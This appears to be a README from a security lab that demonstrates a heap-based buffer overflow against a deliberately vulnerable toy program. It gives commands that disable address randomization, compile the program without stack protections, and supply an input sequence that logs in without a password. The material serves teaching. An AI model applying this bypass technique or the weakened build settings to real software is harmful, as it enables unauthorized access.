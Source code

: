# Buffer Overflow Vulnerability

The heap based attack can be demonstrated by running following steps. Let us go through them.

## Initial Setup of the Machine

To make our attack easier, we first need to disable address space
randomization, a defense against buffer overflows making guessing addresses in
the heap and stack more difficult.  To do so, we simply need to run the
following command under root privileges:

```
sudo sysctl -w kernel.randomize_va_space=0
```

A confirmation of the variable's value is printed `kernel.randomize_va_space = 0`
by the terminal. 


## Vulnerable Program

The vulnerable program is provided in the [heap.c](heap.c) file.  

```
gcc -m32 -o heap -z execstack -fno-stack-protector heap.c
```

## Exploiting the Vulnerability: Demonstration of the Buffer Overflow Attack

To demonstrate the buffer flow attack, we run the following commands:

```
./heap
```

This simply compiles and runs the [heap.c](heap.c) file. 
After this, we see the effect of heap_based overflow helping us login without actually entering the password.
```
auth bufferoverflow.net
login # not logged in yet
login 234 # not logged in yet
reset
service heapoverflow.net
service 23
login # logged in now
```






